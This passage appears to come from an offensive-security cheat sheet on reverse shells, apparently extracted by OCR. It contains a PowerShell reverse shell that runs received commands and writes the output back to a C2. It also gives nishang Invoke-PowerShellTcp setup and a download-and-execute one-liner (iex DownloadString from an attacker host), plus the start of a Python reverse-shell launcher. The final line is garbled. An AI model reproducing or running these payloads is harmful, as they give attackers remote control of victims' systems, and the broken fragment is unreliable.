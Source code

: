 ```powershell
    # Encode command, remove last byte/newline
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    
    # Execute command and save output (including errors thrown)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }

    # Write output to C2
    WriteToStream ($Output)
}
# Closes the StreamWriter and the underlying TCPClient
$StreamWriter.Close()
```

Link reference for \[4]

```
https://github.com/martinsohn/PowerShell-reverse-shell
```

#### Invoke-PowershellTCP

First clone nishang into your machine

```bash
git clone https://github.com/samratashok/nishang.git
```

At the bottom of \[InvokePowerShellTcp.ps1] put the following:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress yourip -Port yourport
```

To invoke this, download it to the target machine and execute it using the below powershell command

```powershell
powershell iex(new-object net.webclient).downloadstring('http://yourip/Invoke-PowerShellTcp.ps1')
```

Catch the connection on your listener

#### Python + Powershell reverse shell

Run the below script and provide RHOST,RPORT,LHOST,LPORT and it will connect to your listener

```python
#!/usr/bin/env python2
import sys
import urllib, urllib2
from base64 import b64encode

if (len(sys.argv) < 5):
    print("usage: <RHOST> <RPORT> <LHOST> <LPORT>")
    exit()

RHOST = sys.argv[1]
RPORT = sys.argv[2]
LHOST = sys.argv[3]
LPORT = sys.argv[4]

print("RHOST="+RHOST+" RPORT="+RPORT+" LHOST="+LHOST+" LPORT="+LPORT+'\n')

```

[Text.Encoding]: :ASCII)) .ReadToEnd() ;"
